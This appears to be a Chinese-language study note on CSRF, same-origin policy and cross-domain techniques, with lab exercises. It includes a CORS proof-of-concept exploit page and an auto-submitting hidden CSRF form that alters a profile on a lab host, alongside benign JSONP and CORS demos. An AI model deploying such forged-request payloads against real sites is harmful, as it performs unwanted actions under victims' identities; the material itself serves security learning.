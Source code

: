 # 知识点

> CSRF漏洞

- 概念:跨站请求伪造(Cross-site request forgery，CSRF)是一种攻击，它强制终端用户在当前对其进行身份验证后的Web应用程序上`执行非本意的操作`。CSRF攻击的着重点在`伪造更改状态的请求`，而`不是盗取数据`，因为攻击者无法查看对伪造请求的响应
- 借助社工的一些帮助(例如通过电子邮件或聊天发送链接)，攻击者可以`诱骗用户执行攻击者选择的操作`。如果受害者是`普通用户`，则成功的CSRF攻击可以`强制用户执行状态更改`的请求，例如转移资金，更改其电子邮件地址等。如果受害者是`管理帐户`CSRF可能会`危及整个Web应用程序`
- 原理:CSRF是一种`欺骗`受害者提交恶意请求的攻击,它`继承了受害者的身份和权限`,代表受害者执行`非本意`,`恶意`的操作
- 关键点:对于大多数站点，浏览器请求`自动发送`与站点关联的所有凭据，例如用户的会话cookie，IP地址，Windows域凭据等.因此，如果用户当前已对该站点进行了身份验证，则该站点将`无法区分`受害者发送的伪造请求和受害者发送的合法请求
- 条件:
  - 登录`受信任网站A`,并在`本地生成Cookie`
  - 在`不登出A`的情况下,`访问危险网站B`

> CSRF的危害和防御

- CSRF漏洞`危害`
  - 攻击者盗用了用户的身份后，以用户的名义发送恶意请求;
  - CSRF的恶意操作:以用户名义发送邮件，发消息，盗取账号，购买商品，虚拟货币转账等等，
  - 造成的问题包括:个人隐私泄露以及财产安全问题。
- CSRF漏洞`防御`
  - 验证Referer字段----如果Referer是`其他网站`的话，就有可能是CSRF攻击，则拒绝该请求.。
  - 添加Token验证----可以在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个token，如果请求中`没有token`或者`token内容不正确`，则认为可能是CSRF攻击而拒绝该请求。
  - 二次验证----在转账等`关键操作之前`提供当前`用户的密码`或者`验证码`
  - 用户养成良好的习惯----不要随意点击链接和图片、及时退出长时间不使用的已登录账户、安装合适的安全防护软件
    .

> CSRF和XSS的区别

- 从`原理`的角度
  - XSS是将`恶意的代码插入到html页面`中，当用户浏览页面时，插入的htm!代码会被执行，从而达到最终目的。
  - CSRF是一种`欺骗受害者`提交恶意请求的攻击。代表受害者执行`非本意、恶意`的操作
- 其他角度:
  - 1.CSRF比XSS漏洞危害更高，相对XSS而言较难防御。
  - 2.CSRF可以做到的事情，XSS都可以做到。
  - 3.XSS有局限性，而CSRF没有局限性:
  - 4.XSS针对`客户端`，而CSRF针对`服务端`
  - 5.XSS是`利用合法用户`获取其信息，而CSRF是`伪造成合法用户`发起请求。

> 同源策略

- 定义:如果两个页面的`协议`，`端口`(如果有指定)和`域名`都`相同`，则两个页面`具有相同的源`
- 概况:
  - 同源策略是浏览器的一个`安全功能`，`不同源`的客户端脚本在`没有明确授权`的情况下，不能读写对方资源。
  - 同源策略限制了从同一个源加载的文档或脚本如何与来自另一个源的资源进行交互。
  - 这是一个用于`隔离潜在恶意文件`的重要安全机制。
- 受约束对象:`DOM`,`Cookie`,`第三方插件`以及`XMLHttpRequest`都受到`同源策略`的约束
- 不受约束的对象:
  - 页面中的`链接`，`重定向`以及`表单`提交是不会受到同源策略限制的。
  - 跨域资源的引入是可以的。但是js不能读写加载的内容。如嵌入到页面中的<script>，<img>，<link>，<iframe>等带`src属性`的标签。
- 非同源收到的限制:
  - Cookie、LocalStorage 和 IndexDB 无法读取。
  - DOM 无法获得。
  - AJAX 请求不能发送。

> 跨域

- 概念:受前面所讲的浏览器同源策略的影响，不是同源的脚本`不能操作其他源`下面的对象。想要`操作另一个源下的对象`是就需要`跨域`
  简单的说，我们把`不同域`之间`请求数据`的操作，称为跨域

> document.domain跨域

- `方法`:
  - document.domain跨域(两个页面`一级域名相同`,只是`二级域名不同`,可用该设置共享Cookie)
    - 只能在`父域名`与`子域名`之间使用
    - `存在安全性问题`,当一个站点被攻击以后,另一个站点会引起安全漏洞
    - 只适用于`Cookie`和`iframe`窗口

> JSONP跨域

- 说明:利用`<script>的src不受同源策略约束`实现跨域获取数据
- `Jsonp(SON with Padding)`是json 的一种"使用模式"，可以让网页从别的域名(网站)那获取资料，即跨域读取数据。
- 存在问题:
  - 存在`安全性`问题需要网站双方商议基础token的身份验证
  - 只能是`GET`，不能POST
  - 可能被注入恶意代码，篡改页面内容，可以采用字符串过滤来规避此问题

> CORS跨域

- CORS全称为`跨域资源共享`
- 说明:CORS是一个W3C标准,允许浏览器向跨源服务器发送`XMLHttpRequest`请求
- 利用`javascript`无法控制`http头`的特点,通过目标返回的`http头授权`是否允许跨域访问
- 检测方式:
  - curl https://www.baidu.com -H "Origin:https://qq.com" -I ,检查返回包的`Access-Control-Allow-Origin`字段是否为`https://qq.com
  - bp发送请求包,查看返回包的tips值,当它为null,代表信任任何域


> CORS漏洞利用

- 用于`csrf`跨站请求伪造,发送钓鱼链接,读取用户敏感数据

- 用户点击`buttton`弹出响应信息

- ```html
  <!DOCTYPE html>
  <html>
  <body>
  <center>
      <h2>CORS POC Exploit</h2>
      <h3>Extract SID</h3>
      <div id="demo">
          <button type="button" onclick="cors()">Exploit</button>
          <p>Response will be shown here:</p>
          <pre id="response"></pre>
      </div>
      <script>
          function cors() {
              var xhttp = new XMLHttpRequest();
              xhttp.onreadystatechange = function() {
                  if (this.readyState == 4 && this.status == 200) {
                     // 输出响应内容
                      document.getElementById("response").textContent = this.responseText;
                  }
              };
              // 访问
              xhttp.open("GET", "http://127.0.0.1/csrf.html", true);
              xhttp.withCredentials = true; 
          }
      </script>
  </center>
  </body>
  </html>
  ```

  ![image-20240918204652135](./assets/image-20240918204652135.png)

------



# 实战

> CSRF(get)

![image-20240918183529268](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918183529268.png)

- 进入登录页面修改信息,然后`抓包拦截`

![image-20240918183713778](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918183713778.png)

- 直接修改放行http://192.168.100.40:49615//csrfget/csrf_get_edit.php?sex=sunhua&phonenum=1433223&add=666+76&email=sunhua%40pen.com&submit=submit

- 确保`处于登录状态`,然后访问url
- ![image-20240918183918103](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918183918103.png)

- 可以发现修改`成功`!

------

> CSRF(post)

- 提前写好`csrf.html`

- ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <title>csrf</title>
      <script>
          window.onload=function () {
              document.getElementById("submit").click()
          }
      </script>
  
  </head>
  <body>
  <form method="post" action="http://192.168.100.40:49615/csrfpost/csrf_post_edit.php">
      <input type="hidden" name="sex" value="boy111"/>
      <input type="hidden" name="phonenum" value="1234567890"/>
      <input type="hidden" name="add" value="hack111"/>
      <input type="hidden" name="email" value="hack@hack.com"/>
      <input type="hidden" name="submit" value="submit"/>
      <input type="submit" id="submit" value="不是诈骗"/>
  </form>
  </body>
  </html>
  ```

- 直接访问http://127.0.0.1/csrf.html,可以发现被成功修改

- ![image-20240918184640774](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918184640774.png)

------

> CSRF(token)

- 下载插件
- ![image-20240918185331111](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918185331111.png)
- 发送到重放器,修改数据,发送请求

![image-20240918185531420](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918185531420.png)

![image-20240918185923930](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918185923930.png)

- 可以发现修改成功!

------

> document.domain跨域

- 创建如图树结构的文件
- ![image-20240918193954881](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918193954881.png)

```html
<!sub1.html>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Subdomain 1</title>
    <script>
        // 设置 document.domain
        document.domain = 'localhost';  // 使用 localhost

        function sendMessage() {
            const otherWindow = window.open('http://localhost:8002/sub2.html'); // 使用实际的 URL
            otherWindow.postMessage('Hello from Subdomain 1!', 'http://localhost:8002');
        }

        window.addEventListener('message', (event) => {
            if (event.origin === 'http://localhost:8002') {
                alert('Received message: ' + event.data);
            }
        });
    </script>
</head>
<body>
    <h1>sub1</h1>
    <button onclick="sendMessage()">发送到sub2</button>
</body>
</html>

```

```html
<!sub2.html>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Subdomain 2</title>
    <script>
        // 设置 document.domain
        document.domain = 'localhost';  // 使用 localhost

        window.addEventListener('message', (event) => {
            if (event.origin === 'http://localhost:8001') {
                alert('接收信息: ' + event.data);
            }
        });

        function sendMessage() {
            const otherWindow = window.open('http://localhost:8001/sub1.html'); // 使用实际的 URL
            otherWindow.postMessage('来自sub2!', 'http://localhost:8001');
        }
    </script>
</head>
<body>
    <h1>sub2</h1>
    <button onclick="sendMessage()">发送到sum1</button>
</body>
</html>
```

- 在两个`html`目录下分别开启`8001`和`8002`端口
- ![image-20240918194251379](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918194251379-1726659772417-1.png)

![image-20240918194303483](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918194303483.png)

- 访问http://127.0.0.1:8001/sub1.html

![image-20240918194526708](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918194526708.png)

![image-20240918194439085](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918194439085.png)

------

> JSONP跨域

- 我使用的是`node.js`

- ![image-20240918200121066](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918200121066.png)

  

```js
//server.js

const express = require('express');
const app = express();

app.get('/api/data', (req, res) => {
  const callback = req.query.callback; // 获取回调函数名称
  const data = { message: '这是jsonp实现的跨域' };
  res.type('application/javascript'); // 设置响应类型
  res.send(`${callback}(${JSON.stringify(data)})`); // 返回JSONP格式
});

app.listen(3000, () => {
  console.log('请访问:http://localhost:3000/api/data?callback=handleData');
});
```

```html
<!index.html>

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>JSONP实现跨域</title>
  <script>
    function handleResponse(data) {
      console.log(data); // 处理返回的数据
      document.body.innerHTML += `<p>${data.message}</p>`;
    }

    function fetchData() {
      const script = document.createElement('script');
      script.src = 'http://localhost:3000/api/data?callback=handleResponse';
      document.body.appendChild(script); // 动态插入script标签
    }
  </script>
</head>
<body onload="fetchData()">
  <h1>JSONP示例</h1>
</body>
</html>

```

- 运行`server.js`,访问http://localhost:3000/api/data?callback=handleData

![image-20240918200341919](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918200341919.png)

------

> CORS跨域

- 跟`jsonp`差不多

- ```js
  //server1.js
  
  const express = require('express');
  const cors = require('cors');
  
  const app = express();
  const PORT = 8001;
  
  // 启用 CORS
  app.use(cors());
  
  
  app.get('/api/data', (req, res) => {
      res.json({ message: '你好 CORS!' });
  });
  
  // 启动服务器
  app.listen(PORT, () => {
      console.log(`Server running on http://localhost:${PORT}`);
  });
  ```

  ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <title>CORS Example</title>
  </head>
  <body>
      <h1>CORS 示例</h1>
      <button id="fetchButton">获取数据</button>
      <pre id="output"></pre>
  
      <script>
          document.getElementById('fetchButton').addEventListener('click', () => {
              fetch('http://localhost:8001/api/data', {
                  method: 'GET',
                  headers: {
                      'Content-Type': 'application/json'
                  }
              })
              .then(response => {
                  return response.json();
              })
              .then(data => {
                  document.getElementById('output').textContent = JSON.stringify(data, null, 2);
              })
          });
      </script>
  </body>
  </html>
  ```

  

![image-20240918201259046](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240918201259046.png)